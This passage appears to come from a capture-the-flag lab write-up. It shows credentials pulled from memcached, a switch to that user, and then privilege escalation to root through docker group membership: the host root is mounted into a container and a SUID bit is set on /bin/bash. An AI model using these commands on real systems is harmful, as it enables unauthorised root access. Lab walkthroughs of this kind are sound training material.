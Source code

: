 We can see some keys that probably have a value associated. To get those values we can use the command `get` .

```bash
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get user
VALUE user 0 5
luffy
```

So we have the following credentials `luffy:0n3_p1ec3` . We can use them to become luffy.

```bash
ash@cache:/$ su luffy 
Password: 
luffy@cache:/$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

And since we are part of docker group we can escalate privilege pretty easily.

- We create a new container with a volume where we mount the host filesystem in the container route **/mnt**

```bash
luffy@cache:/$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# whoami
root
# ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  swap.img  sys  tmp  usr  var  vmlinuz  vmlinuz.old
```

- We are root but inside the container, since the host file system is mounted as a volume we can set the /bin/bash with the SUID command and escalate privileges.

```bash
# chmod u+s /bin/bash
# exit
luffy@cache:/$ ls -la /bin/bash 
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
luffy@cache:/$ bash -p
bash-4.4# whoami
root
```
